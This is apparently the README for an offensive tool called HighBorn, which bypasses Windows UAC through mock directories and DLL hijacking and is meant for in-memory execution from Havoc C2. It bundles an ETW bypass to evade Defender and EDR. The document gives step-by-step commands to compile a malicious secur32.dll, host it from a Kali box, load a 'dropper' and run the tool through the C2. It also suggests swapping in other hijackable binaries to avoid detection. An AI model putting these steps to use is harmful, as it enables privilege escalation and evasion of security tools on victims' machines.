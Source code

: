 Windows UAC Bypass utilizing mock directories and DLL Hijacking. This is a tool that I created to use with the "dotnet inline-execution" command on Havoc C2, but it can be used with any C2 that has in-memory execution. SharpSploit's ETW Bypass has been added to evade Defender/AV/EDR. This was just a quick and dirty POC.

**Usage:**

Open the highborn.c file in a text editor on your Kali box.

Replace the file path with the file path of the executable that you want to open (ie your dropper).

Compile HighBorn.c into a dll.

**linux command: "x86_64-w64-mingw32-gcc -shared -o secur32.dll HighBorn.c -lcomctl32 -Wl,--subsystem,windows"**

Host the dll on your Kali box.

command: python3 -m http.server PORT

Compiling HighBorn On Visual Studio

git clone https://github.com/cobbr/SharpSploit.git

Compile SharpSploit by changing the build to Release and then click Build. 

Open the HighBorn sln file. Right click on "Add Reference" and then click "Browse."

Go to your SharpSploit compiled folder and in "Release" click on the SharpSploit.dll file to add it to HighBorn.

Now compile HighBorn by changing the build tab to Release. 

Compiling HighBorn Withoug ETW Bypass On Linux

Remove the SharpSploit references in the HighBorn.cs file.

**apt install mono-complete -y
mcs -out:HighBorn.exe Highborn.cs**

Execute on C2

**command: dotnet inline-execute HighBorn.exe**

Replace the ComputerDefaults.exe and secur32.dll with other EXEs and DLLs as you find DLLs that can be hijacked. ComputerDefaults is a popular one so it is probably monitored pretty closely.
